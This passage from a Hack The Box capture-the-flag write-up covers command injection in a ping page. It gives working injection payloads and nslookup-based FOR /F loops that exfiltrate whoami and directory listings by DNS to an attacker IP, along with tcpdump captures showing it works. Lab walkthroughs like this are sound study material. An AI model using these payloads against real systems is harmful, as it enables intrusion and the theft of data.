 ### Command injection using ping page

We can run commands by adding `&& <command>` in the command field.

We can validate we got RCE by pinging ourselves with `127.0.0.1 && ping 10.10.14.23`.

The first IP is implicitely pinged by the script followed by our injected command after &&:

```bash
root@kali:~/hackthebox/Machines/Ethereal# tcpdump -nni tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
14:30:51.029999 IP 10.10.10.106 > 10.10.14.23: ICMP echo request, id 1, seq 39, length 40
14:30:51.030129 IP 10.10.14.23 > 10.10.10.106: ICMP echo reply, id 1, seq 39, length 40
14:30:52.046783 IP 10.10.10.106 > 10.10.14.23: ICMP echo request, id 1, seq 40, length 40
14:30:52.046814 IP 10.10.14.23 > 10.10.10.106: ICMP echo reply, id 1, seq 40, length 40
```

We can't run any other commands like `certutil.exe` or `powershell.exe`, AppLocker is probably enabled on the box.

However we can exfil some data by using `nslookup`.

For example, using the payload `127.0.0.1 && nslookup inject 10.10.14.23`, we get can get the box to do a query back to us:

```bash
root@kali:~# tcpdump -nni tun0 -vv port 53
tcpdump: listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
20:20:16.625986 IP (tos 0x0, ttl 127, id 8724, offset 0, flags [none], proto UDP (17), length 70)
    10.10.10.106.52125 > 10.10.14.23.53: [udp sum ok] 1+ PTR? 23.14.10.10.in-addr.arpa. (42)
20:20:18.652075 IP (tos 0x0, ttl 127, id 8726, offset 0, flags [none], proto UDP (17), length 52)
    10.10.10.106.52126 > 10.10.14.23.53: [udp sum ok] 2+ A? inject. (24)
20:20:20.922359 IP (tos 0x0, ttl 127, id 8727, offset 0, flags [none], proto UDP (17), length 52)
    10.10.10.106.52127 > 10.10.14.23.53: [udp sum ok] 3+ AAAA? inject. (24)
```

What we want is to exfil the output of commands, by using the following `payload` we can start to output some stuff:

`FOR /F "tokens=1" %g IN 'whoami' do (nslookup %g 10.10.14.23)`

Output:

```bash
20:30:23.082437 IP (tos 0x0, ttl 127, id 8942, offset 0, flags [none], proto UDP (17), length 58)
    10.10.10.106.63713 > 10.10.14.23.53: [udp sum ok] 2+ A? etherealalan. (30)
```

Now, it's not perfect, we can't exfil special characters or anything else that is not a valid character in a `DNS query`. So in the query above, we can guess that the real output should be `ethereal\alan` instead of `etherealalan`.

So if we're listing directories, we have to use the `/b` flag so it only returns the name of the `directory/file` otherwise we'll need to play with the token parameter to indicate which item to read from the output.

Another example listing directories: `FOR /F "tokens=1" %g IN 'dir /b c:\users' do (nslookup %g 10.10.14.23)`

